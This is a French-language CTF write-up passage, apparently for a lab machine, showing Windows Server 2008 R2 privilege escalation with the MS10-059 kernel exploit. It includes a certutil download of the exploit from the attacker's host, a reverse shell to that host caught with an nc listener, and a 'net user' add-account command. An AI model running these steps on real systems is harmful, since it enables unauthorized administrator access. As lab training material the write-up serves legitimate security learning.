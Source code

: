 
### 2eme Methode(Kernel Exploit (MS10-059)
Au debut on avait commencer par checker le `systeminfo` et alors on a pu trouver qu'il s'agit d'une version ancienne de Windows Server et qu'aucun correctif n'a ete installé.

- Les infos

```
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600

```
Donc en cherchant quelque exploit j'ai pu tomber sur ce github

- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

Son usage est ecrit dans le github pour creer un utilisateur

```terminal
c:\> Churraskito.exe "C:\windows\system32\cmd.exe" "net user 123 123 /add"
```
Donc je vais la telecharger dans la Box cible puis l'executer comme explique


```terminal
:\Users\tolis\AppData\Local\Temp>certutil -urlcache -split -f http://10.10.16.5/MS10-059.exe MS10-059.exe
certutil -urlcache -split -f http://10.10.16.5/MS10-059.exe MS10-059.exe
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.

C:\Users\tolis\AppData\Local\Temp>.\MS10-059.exe
.\MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>

```

Ici on me dit que cet exploit me donne un `Shell` si je rentre un IP specifique et un port

```terminal
C:\Users\tolis\AppData\Local\Temp>.\MS10-059.exe 10.10.16.5 1338
.\MS10-059.exe 10.10.16.5 1338
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\Users\tolis\AppData\Local\Temp>


└─# sudo rlwrap nc -lnvp 1338
listening on [any] 1338 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.201.72] 49798
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\AppData\Local\Temp>
```

Et maintenant aussi on est bien administrateur sur la Box

![Box finished](https://i.ibb.co/4N1mbkD/b6.png)

### Join Us
**Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 